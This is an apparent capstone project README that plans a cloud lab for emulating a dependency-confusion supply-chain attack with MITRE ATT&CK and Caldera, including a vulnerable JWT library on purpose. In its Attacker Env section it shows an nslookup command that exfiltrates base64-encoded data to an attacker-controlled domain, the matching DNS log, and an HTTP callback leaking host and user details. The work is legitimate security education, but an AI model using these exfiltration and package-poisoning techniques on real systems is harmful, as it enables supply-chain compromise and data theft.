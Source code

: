 # Notes and Initial Research

Notes template
```
Resources link:
Idea:
Notes:
```

Please try to stick to the above notes contribution template all though it's not necessary. Since we are in different timezones and remote, it's best to have organized notes.

I have protected the main branch, so any changes will have to go through a PR merge, and before every PR merge, we all (at least 2) will have to review it.

When committing please ensure to add an apt commit message.

## Scenario
This project is intended to apply the MITRE ATT&CK framework and tools to map a cyber incident and then use the Caldera tool to complete an emulation plan. Included into team's tasks is the deployment in the Cloud of a mock-up scenario that represents the system compromised in the cyberincident studied. 

As a result of the project, with the Adversary Emulation Plan is needed to elaborate Threat Report of the incident analized (including a STIX2.1 JSON representation).  


**Meeting Notes, Feb4**  
- [ ] Dev and Attacker Env in separate virtual network (all machines are to be assumed Linux machines, unless mentioned explicitly)  
- [ ] Domain name (.me)  
- [ ] Terraform env setup  
- [ ] Caldera tool information

## Dev Env

Resource Link: https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610

Idea: Build an infrastructure for an organization that heavily relies on a JavaScript environment, which can be utilized for implementing Dependency Confusion.

Notes: 

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

### Dev-Server-1

```bash
Node: v18.11.0
npm: v8.19.2
pm2: 5.2.2

# The versions can change depending on the time of implementation
```

This would be our ginny pig application, which would have standard features of a generic web-application. Ex: Authentication and messaging (static)

The authentication will be handled using a vulnerable JWT tokens. We plan on using `jsonwebtoken v0.4.0` which will be vulnerable to token signing vulnerability ([CVE-2015-9235](https://nvd.nist.gov/vuln/detail/CVE-2015-9235)). 

```diff 
- Critical issue 1 (Account Takeover)
+ CVSS: 3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

> **Note**  
> STEP1: This will allows us to do perform an account takeover of the admin account, from here we will leak about the source code and name of a private package called: \<private-package-name>



### Dev-Server-2

```bash
Node: v18.11.0
npm: v8.19.2
pm2: v5.2.2
verdaccio: v5.20.1
# The versions can change depending on the time of implementation
```

This will be the internal package managing service like NPM. We will be using [Verdaccio](https://www.npmjs.com/package/verdaccio) for this server.

This is where the internal package will be hosted.

> When the attack will unfold, it will also poison this repository with our malicious package.

```diff 
- High/Critical issue 2
+ CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
# depends based on the amount of compromise a company incurs 
```

> **Note**  
> STEP2: This will allows us to get back a call back over the DNS and/or HTTP requests.


## Attacker Env

This is a separate env from that of Dev, and will require us to `2` server (or `1`) and a domain name get to call backs on.

Requirements: 
`2` WebServers each with:

```
RAM: 4GB or more
Storage: Min
```

Domain name : 
Can be bought from Namecheap for free using the .edu account.

### Attacker-Server-1 

DNS server which will receive call backs based on the domain look ups
(We can use something like: [Bind9](https://www.isc.org/bind/))

Ex of a DNS callback to my own hacker-server
```bash
nslookup $(echo -n "Capstone-test" | openssl base64).X-hacker-X-hackerone.me
Server:         XXXX:XXX:feed::1
Address:        XXXX:XXX:feed::1#53

Non-authoritative answer:
Name:   Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me
Address: <redacted>

### As received on my hacker-server

03-Feb-2023 10:49:16.277 queries: info: client @0x7f61f402a880 <IP-Address>#17232 (Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me): query: Q2Fwc3RvbmUtdGVzdA==.X-hacker-X-hackerone.me IN A -E(0)D (IP-Address)
```

> We are encoding the output with base-64 because of character restrictions for domain-name.

### Attacker-server-2 (Optional)

Instead of having a dedicated server, we can also have a web-hook to receive HTTP call backs:

```h
The path: <path>, Version: Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux ID: uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(bluetooth),133(scanner),141(kaboxer), IP: <redacted>, Internal IP: 10.0.0.20 172.17.0.1 2601:197:801:2040::7aa 2601:197:801:2040:4d98:e828:740e:c72c 2601:197:801:2040:20c:29ff:febb:36a5 , Tag: altl
```

or we can use [ngrok](https://ngrok.com/) to receive call-backs on our system which can be on our own computers.

I have penned down a very simple overview of the attack here: (please ignore my shabby handwriting)
[attack-explained](./public/docs/attack-explained.pdf)


